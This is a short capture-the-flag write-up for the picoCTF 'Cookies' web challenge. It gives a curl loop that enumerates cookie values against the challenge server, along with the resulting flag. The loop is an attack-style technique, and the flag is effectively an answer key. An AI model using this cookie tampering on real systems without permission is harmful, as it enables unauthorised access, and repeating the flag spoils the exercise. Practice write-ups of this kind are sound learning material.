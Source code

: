 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/

## Datos de acceso

## Solución

ccajero-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep "pico"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>

picoCTF{3v3ry1_l0v3s_c00k135_064663be}
## Notas adicionales

## Referencias
